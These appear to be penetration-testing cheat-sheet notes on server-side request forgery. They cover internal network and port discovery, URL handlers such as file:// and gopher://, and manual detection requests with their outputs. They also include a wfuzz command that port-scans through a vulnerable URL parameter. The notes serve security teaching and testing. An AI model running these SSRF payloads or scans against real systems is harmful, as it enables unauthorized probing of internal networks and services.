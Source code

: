 #### 1.1. About SSRF

- somewhat similar to File Inclusion, but attack vectors require that the target will internally process URLs/HTTP requests
- this attack will most likely have a higher impact on internal network / localhost
- helps with internal port scanning (where services might be firewalled - aka XSPA)
- helps with internal (sub)domain and IPs/hosts discovery
  - Docker default: `172.17.0.1-254`
  - `http://site.com/?url=https://172.17.0.105:1234` - where `1234` is an open HTTP port (expected error: `SSL23_GET_SERVER_HELLO`; to avoid time-out error)
  - first enumerate common ports on existing internal IP address
- could be limited to internal URLs only (`*.domain.com`)
- SSRF can be used to download remote malicious files and depending on server misconfiguration (`.php`) files can be executed
- can be used to leak information / administrative interfaces / internal services
- allows interaction with internal services that are not supposed to be exposed


#### 1.2. SSRF Bible

```
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM
```

#### 1.3. URL handlers

- `file://, http://, https://` (most common)
- `file:///proc/self/cwd/../config/` (Java)
- `gopher://, dict://, php://, jar://, tftp://`

More: `https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml`

#### 1.4. Detection

Manual detection:
```
$ http "http://$target/url.php?path=http://localhost:22" -b
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

$ $ http "$target/url.php?path=http://localhost:8080" -b
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title>
....
```


WFUZZ port scanning via SSRF:
```
# docker run --rm -it wfuzz -z range,0-65535 --hh 2 $target/url.php?path=http://localhost:FUZZ
```
